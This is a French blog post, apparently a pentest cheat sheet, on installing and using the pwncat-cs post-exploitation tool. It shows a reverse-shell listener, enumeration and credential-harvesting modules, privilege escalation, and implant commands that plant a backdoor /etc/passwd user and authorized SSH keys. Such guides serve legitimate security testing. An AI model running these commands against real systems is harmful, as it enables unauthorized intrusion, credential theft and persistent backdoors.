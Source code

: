 ```yaml
---
title: Stop using netcat, use Pwncat-cs
meta_title: ""
description: Petite documentationn d'utilisation d'un fancy rev et bind handler
date: 2024-04-04T05:00:00Z
image: /images/pwncat.png
categories:
  - Outils
author: Tmax
tags:
  - Outils
  - Fiches
  - Post-exploitation
draft: false
---
```


# Introduction

[Pwncat](https://github.com/calebstewart/pwncat) est un outil de post-exploitation qui facilite l'usage des reverse shell et embarque plusieurs avantages tels que la gestion des shells stabilisés et interactifs, la désactivation de l'historique, la gestion des multi-sessions... 

Ça vaut le détour. 

Voici le lien vers la [documentation officielle](https://pwncat.readthedocs.io/en/latest/). 

# Installation 

Il existe plusieurs méthodes d'installation, notamment avec `apt`. 
Nous aborderons seulement l'installation avec `pip` en utilisant un environnement virtuel. 

```bash
sudo apt-get install python3-pip # Installation de pip

# Installation de Venv 
sudo pip3 install virtualenv
# Ou avec 
sudo apt install python3-venv 

# Creation du Venv
python -m venv /opt/pwncat

# Installer pwncat dans notre venv 
/opt/pwncat/bin/pip install pwncat-cs

# Pour autoriser l'utilisation de pwncat hors de notre Venv 
ln -s /opt/pwncat/bin/pwncat-cs /usr/local/bin
```

# Utilisation 

Pour un usage basique, voici la section "Basic usage" de la [documentation](https://pwncat.readthedocs.io/en/latest/usage.html). 

Pour ce qui est d'un simple reverse shell : 

```bash
pwncat-cs -lp 4444
```

{{< image src="images/methode_pwncat1.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

![[methode_pwncat1.png]]

L'indication **(local)** vous indique que vous êtes encore sur votre machine. Avec `CTRL + D` vous pourrez alors passer en **(remote)** et avoir accès à la machine distante. 

La commande `help` est bien détaillée, vous pouvez aussi l'utiliser pour chaque commande dispo comme `help connect` par exemple. Sinon, vous pouvez retrouver plus de détails pour chaque commande [ici](https://pwncat.readthedocs.io/en/latest/commands/index.html).  

Vous pouvez entre autres gérer plusieurs connexions en même temps, créer des backdoors et mettre en "queue" chaque connexion entrante. 

Voici la liste des commandes dispo : 

```python
  Command     Description                                                   
 ────────────────────────────────────────────────────────────────────────── 
  alias       Alias an existing command with a new name. Specifying [...]   
  back        Return to the remote terminal                                 
  bind        Create key aliases for when in raw mode. This only [...]      
  connect     Connect to a remote victim. This command is only valid [...]  
  download    Download a file from the remote host to the local host        
  escalate    Attempt privilege escalation in the current session. [...]    
  exit        Exit the interactive prompt. If sessions are active, [...]    
  help        List known commands and print their associated help [...]     
  info        View info about a module                                      
  lcd         Change the local current working directory                    
  leave       Leave a layer of execution from this session. Layers [...]    
  listen      Create a new background listener. Background listeners [...]  
  listeners   Manage active or stopped background listeners. This [...]     
  load        Load modules from the specified directory. This does [...]    
  local       Run a local shell command on your attacking machine           
  lpwd        Print the local current working directory                     
  reset       Reset the remote terminal to the standard pwncat [...]        
  run         Run a module. If no module is specified, use the [...]        
  search      View info about a module                                      
  sessions    Interact and control active remote sessions. This [...]       
  set         Set variable runtime variable parameters for pwncat           
  shortcut                                                                  
  upload      Upload a file from the local host to the remote host          
  use         Set the currently used module in the config handler     
```

Pour lister vos sessions vous pouvez 

```bash
sessions
```

puis pour choisir de cibler l'une d'entre elles 

```bash
sessions ID_decimal 
```

## Modules

Vous pouvez aussi rechercher les modules disponibles que l'on peut exécuter avec la commande 
```
run {module_name} 
```

```python
(local) pwncat$ search enum*
                                                                          Results                                                                           
                                                         ╷                                                                                                  
  Name                                                   │ Description                                                                                      
 ════════════════════════════════════════════════════════╪═════════════════════════════════════════════════════════════════════════════════════════════════ 
  enumerate                                              │ Perform multiple enumeration modules and write a formatted report to the...                      
  enumerate.escalate.implant                             │ Generates escalation methods based on installed implants in order to...                          
  enumerate.escalate.replace                             │ Locate execute abilities and produce escalation methods from them. This...                       
  enumerate.gather                                       │ Perform multiple enumeration modules and write a formatted report to the...                      
  enumerate.creds.pam                                    │ Exfiltrate logged passwords from the pam-based persistence module. This...                       
  enumerate.creds.password                               │ Search the victim file system for configuration files which may contain...                       
  enumerate.creds.private_key                            │ Search the victim file system for configuration files which may contain...                       
  enumerate.escalate.append_passwd                       │ Check for possible methods of escalation via modifying /etc/passwd                               
  enumerate.escalate.leak_privkey                        │ Find escalation methods by using file-read abilities to leak other user's...                     
  enumerate.file.caps                                    │ Enumerate capabilities of the binaries of the remote host                                        
  enumerate.file.suid                                    │ Enumerate SUID binaries on the remote host                                                       
  enumerate.misc.writable_path                           │ Locate any components of the current PATH that are writable by the current user.                 
  enumerate.software.cron                                │ Check for any readable crontabs and return their entries.                                        
  enumerate.software.screen                              │ Locate installations of the ``screen`` tool. This is useful because it may be...                 
  enumerate.software.screen.cve_2017_5618                │ Identify systems vulnerable to CVE-2017-5618                                                     
  enumerate.software.sudo.cve_2019_14287                 │ Identify systems vulnerable to CVE-2019-14287: Sudo Bug Allows Restricted...                     
  enumerate.software.sudo.rules                          │ Enumerate sudo privileges for the current user. If allowed, this module will...                  
  enumerate.software.sudo.version                        │ Retrieve the version of sudo on the remote host                                                  
  enumerate.system.aslr                                  │ Determine whether or not ASLR is enabled or disabled. :return:                                   
  enumerate.system.container                             │ Check if this system is inside a container :return:                                              
  enumerate.system.distro                                │ Enumerate OS/Distribution version information                                                    
  enumerate.system.fstab                                 │ Read /etc/fstab and report on known block device mount points.                                   
  enumerate.system.hosts                                 │ Enumerate hosts identified in /etc/hosts which are not localhost :return:                        
  enumerate.system.init                                  │ Enumerate system init service :return:                                                           
  enumerate.system.network                               │ Enumerate network interfaces with active connections and return their name...                    
  enumerate.system.process                               │ Extract the currently running processes. This will parse the process...                          
  enumerate.system.selinux                               │ Retrieve the current SELinux state                                                               
  enumerate.system.services                              │ Enumerate systemd services on the victim                                                         
  enumerate.system.uname                                 │ Enumerate standard system properties provided by the `uname` command. This...                    
  enumerate.user                                         │ Enumerate users from a linux target                                                              
  enumerate.user.group                                   │ Enumerate users from a linux target     
```

Source : https://pwncat.readthedocs.io/en/latest/modules.html

## Escalade de privilège

Il est aussi possible d'utiliser la commande `escalate` pour trouver des techniques d'élévation de privilèges, mais je ne sais pas trop ce que ça donne : 

{{< image src="images/methode_pwncat2.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

![[Pasted image 20240606151354.png]]

Et utiliser `escalate run` pour exécuter cette escalade de privilège.  

Source : https://pwncat.readthedocs.io/en/latest/privesc.html

## Implant et backdooring


```bash
#Installe une porte dérobée à l'intérieur de l'entreprise /etc/passwd
(local) pwncat$ run implant.passwd backdoor_user=pwncat backdoor_pass=pwncat

# Installe une clé publique autorisée en tant qu'utilisateur actuel
(local) pwncat$ run implant.authorized_key key=./id_rsa

# Installe une clé autorisée en tant qu'autre utilisateur (nécessite un accès root)
(local) pwncat$ run implant.authorized_key user=john key=./id_rsa
```

Il est également possible de créer un fichier de configuration qui run ces commandes dès qu'un shell est établi, plus d'infos [ici](https://pwncat.readthedocs.io/en/latest/configuration.html#configuration-parameters) 


```
# Liste des implants installés
(local) pwncat$ run implant list

# Tentative d'escalade avec un implant local ; il sera demandé quel(s) implant(s) utiliser.
(local) pwncat$ run implant escalate

# Pour lister les implants par ID
pwncat-cs --list

# Essaye de se reconnecter à un implant
pwncat-cs {ID}
```

Source : https://pwncat.readthedocs.io/en/latest/persist.html